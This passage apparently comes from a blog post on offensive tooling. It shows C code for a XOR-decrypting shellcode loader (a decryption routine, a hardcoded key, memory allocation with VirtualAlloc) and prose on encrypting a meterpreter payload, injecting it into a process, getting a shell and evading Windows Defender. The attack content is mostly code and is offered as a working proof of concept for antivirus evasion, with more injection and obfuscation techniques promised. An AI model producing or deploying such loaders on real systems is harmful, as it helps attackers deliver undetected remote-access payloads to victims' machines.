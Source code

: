 	for (int i = 0; i < buf_len; i++) {
		key_char = pass[i % key_len];
		final[i] = buffer_src[i] ^ key_char;
	}

	return final;
}


int main()
{
	unsigned char encrypted[] = "";
	int encrypted_len = sizeof(encrypted);

	unsigned char key[] = "alphaomega";
	int key_len = sizeof(key);

	//unsigned char* payload = xor_encrypt(encrypted, key, encrypted_len, key_len);
	int payload_len = sizeof(encrypted);
	printf("[*] Sizeof initial payload is %d.\n", payload_len);

	LPVOID  address = (LPVOID)VirtualAlloc(0, 4096, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	if (address == 0) {
```

We use the same encryption function in the stub to decrypt the payload, due to the commutative properties of XOR. Again most of this code is taken from the stub. We leave the encrypted character array empty, which we get from the stub output. Let's take this up a notch and use a meterpreter payload to mimic a more real life scenario:

![Stub encrypting meterpreter payload ](/assets/img/5.png)
_Stub encrypting meterpreter payload._

We now take this output and paste this into the `encrypted` char array variable. We could automate this, but as a proof of concept it works. The result is a very happy shell:

![Running encrypted process injection ](/assets/img/6.png)
_Process injection with an encrypted payload._

![Result ](/assets/img/7.png)
_Nothing more satisfying._

The more astute reader may spot that command prompt doesn't return until meterpreter exits. This can be fixed either by migrating process, or ensuring that meterpreter exits cleanly using EXITFUNC. Something to be worked on in a future iteration.

However, the real test is in bypassing at least an AV. Let's take this executable and see if Defender complains:

![Oblivious Defender. ](/assets/img/8.png)
_Sneaking past Defender._


In the next post, I hope to cover injecting into remote processes, obfuscating calls and a few different techniqes.











```